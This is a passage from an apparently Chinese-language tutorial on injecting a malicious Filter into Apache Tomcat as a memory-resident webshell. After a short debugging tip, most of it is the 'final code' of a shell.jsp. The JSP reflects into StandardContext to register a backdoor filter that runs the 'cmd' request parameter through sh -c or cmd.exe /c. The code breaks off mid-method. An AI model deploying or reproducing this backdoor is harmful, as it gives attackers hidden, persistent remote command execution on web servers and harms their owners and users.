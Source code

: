 > 要调试Tomcat的话，需要注意的记得把tomcat下的lib文件导入到idea工程中，要不然idea在调试的时候是找不到的！



#### 知识点3：FilterConfig









#### 最终代码

如下：shell.jsp

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
	// 1.获取当前应用的ServletContext对象(这里是反射获取ApplicationContext的context，也就是standardContext)
    final String name = "xps";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
	// 2.再获取filterConfigs
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);
	// 3.接着实现自定义想要注入的filter对象
    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                
        //这里是后门的主要代码  
        HttpServletRequest req = (HttpServletRequest) request;
        if (req.getParameter("cmd") != null) {
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
```